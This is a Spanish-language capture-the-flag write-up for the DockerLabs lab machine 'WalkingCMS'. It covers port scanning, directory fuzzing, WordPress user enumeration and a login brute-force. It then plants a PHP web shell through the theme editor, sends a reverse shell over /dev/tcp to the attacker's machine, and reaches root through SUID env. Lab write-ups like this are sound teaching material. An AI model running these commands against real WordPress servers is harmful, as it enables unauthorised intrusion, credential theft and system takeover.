 # [WalkingCMS](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh walkingcms.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/50801b43-05e7-4999-91d4-d23412e03e67)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como. podemos ver una página por defecto de Apache2, por lo que haremos un fuzzing para encontrar posible directorios de la siguiente forma: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2/wordpress -x txt,sql,py,js,php,html`
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8c202d25-653f-4177-a6fe-2344be418e8f)

<br>

Nos reporta que existe un directorio dentro de la web llamado `/wordpress`, por lo que entendemos que dicho servidor web está alojado en wordpress.
<br>

Una vez que sabemos que tiene un wordpress, pasaremos a usar la herramienta `wp-scan` la cual nos permite identificar posible vulnerabilidades a través de plugins, enumeración de usuarios y hacer un ataque de fuerza bruta al panel de login. Para usar dicha herramienta pondremos los siguiente: `wpscan --url http://172.17.0.2/wordpress --enumerate u, pv`, con la cual obtendremos que existe un usuario llamado `mario`:<br> 
`-url` ⮞ dirección IP de la máquina victima <br>
`--enumerate u, pv` ⮞ le indicamos que nos enumere posible usuarios con la `u` y plugins con la `pv`. <br> 

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/96d9d3cc-7e1f-4621-b9f9-cd0ec4350bfe)

<br>
<br>

## Fuerza Bruta
Una vez conocemos el posible usuario haremos un ataque de fuerza bruta al panel de login que sería `/wp-admin`. Dicho ataque de fuerza bruta se podría hacer con burpsuite pero en este caso yo usaré wpscan ya que va más rápido, por lo que pondremos lo siguiente: `wpscan --url http://172.17.0.2/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames mario`. <br> 
`-url` ⮞ dirección IP de la máquina victima <br>
`-passwords` ⮞ especificamos la ruta del diccionario en este caso sería el [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). <br> 
`-usernames` ⮞ especificamos los usuarios en este caso solo es `mario`.
<br>

Nos reporta lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9874aab1-121f-4d9d-91b0-ecd7e24b3f63)

<br>

Ahora volvemos al panel de login que estaría en la siguiente ruta: `http://172.17.0.2/wordpress/wp-admin/`, nos logeamos con las credenciales obtenidas `(mario:love)`. Buscando por el panel de admin una posible forma de acceder a la máquina WalkingCMS observamos que si pinchamos en la parte de `Apariencia > Theme Code Editor` se nos abrirá un editor de código para los temas.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b0ef60eb-201e-43e4-812e-f7aaaeccc9b8)
<br>

Pinchando en el botón de `Create` de la derecha nos aparecerá el siguiente pop-up para crear u archivo/carpeta, creamos un archivo llamado `cmd.php`.

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/684232e5-7e9b-4bae-b38f-48f1640beef6)

<br>

Dicho archivo `.php` tendrá el siguiente contenido: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/563a2366-2256-48c9-818c-a56d2b398b3a)

<br>

Lo que debemos hacer ahora es acceder a dicho archivo a través de la URL, para ello nos iremos a la ruta que nos salía al crear un archivo, que sería `wordpress/wp-content/themes/twentytwentytwo/`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/741a0428-f358-45f0-b695-c2ae180839fe)

<br>

Y lo que queremos es acceder al archivo de nombre `cmd.php` introduciremos en la URL lo siguiente: `http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/cmd.php`, y listo conseguiremos RCE (Remove Code Execution) pasándole como parámetro el comando que queremos ejecutar en este caso `id`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ebca85b8-2f72-4f24-bdd2-90a04be442d1)

<br>

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/), nos ponemos en escucha en un puerto poniendo en la terminal escribiendo lo siguiente `nc -nlvp 443`, y poniendo lo siguiente en el buscador `172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, y listo recibiríamos la revshell: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af76da05-55f2-4767-b1a9-15137429dc65)


## Escala de Privilegios
Antes de empezar a probar como escalar privilegios haremos un sencillo tratamiento de la tty poniendo en orden lo siguiente: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>
6-. `ajustamos el stty size poniendo lo siguiente stty rows 49 cols 210`<br>

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data**, hacemos un `cat /etc/passwd | grep "sh$"` para ver los posibles usuarios: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6ba29ccd-363b-4722-a2db-3336b70e3121)

<br>

Vemos que tan solo se encuentra el usuario `root`, por lo que entendemos que vamos a escalar privilegios directamente.
<br>

Si ejecutamos `sudo -l` observamos que no podemos correr nada como sudo, de hecho no esta ni instalado.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo(sudoers).
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/76c547c0-de2e-4609-9734-fd31077927fa)

<br>

Hacemos la siguiente comprobación para ver la posible escalada ejecutando `find / -perm -4000 2>/dev/null`<br>
`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores <br>

<br>

Y vemos que tenemos permiso SUID sobre `/usr/bin/env`: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3f30a8f4-66fd-4f0e-88f1-db7e0e97d629)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de SUID de env, y nos encontramos con lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d3b33fc1-59de-43ba-936e-783c7673af92)

<br>

Por lo que probaremos a ejecutarlo en la máquina víctima poniendo `/usr/bin/env /bin/bash -p`
<br>

Comprobamos que nos ha cambiado el terminal, y listo si ya somos `root` y si hacemos `whoami` para comprobarlo.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ec54c601-2dd3-4c56-a7a1-b9f481dec655)
